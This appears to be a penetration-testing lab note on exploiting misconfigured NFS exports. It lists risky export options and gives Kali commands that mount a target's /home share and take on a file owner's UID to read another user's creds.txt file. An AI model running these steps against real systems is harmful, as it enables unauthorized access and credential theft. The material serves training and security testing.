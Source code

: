 #### Exploitable Settings 
|**Option**|**Description**|
|---|---|
|`rw`|Read and write permissions.|
|`insecure`|Ports above 1024 will be used.|
|`nohide`|If another file system was mounted below an exported directory, this directory is exported by its own exports entry.|
|`no_root_squash`|All files created by root are kept with the UID/GID 0.|


```bash - kali
showmount -e $TARGET
```
`Export list for 10.11.1.72:`
`/home 10.11.0.0/255.255.0.0`

Notice the /home directory
```bash - kali
mkdir ./home
```
```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```
```bash - kali
cd ./home  && ls
```
If you are not able to `cat` the content due to permisions, open  a new terminal as `root` to read the content.

ExportFS
```bash - kali
echo '/mnt/nfs  $TARGET(sync,no_subtree_check)' >> /etc/exports
```

Digging through, we see Marcus folder has a creds file:
`-rwx------ 1 1014 1014 48 Oct 27 2019 creds.txt`
Now we create a new user on kali, change it's user id value, then open the file:
```bash - kali
sudo adduser pwn
```
```bash - kali
cat /etc/passwd | grep pwn
```
now to change the 1002 to 1014
```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```
```bash - kali
cat /etc/passwd | grep pwn
```
```bash - kali
su pwn
```
```bash - kali
cat creds.txt
```
---
```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```
```
cd /MyFolder
```
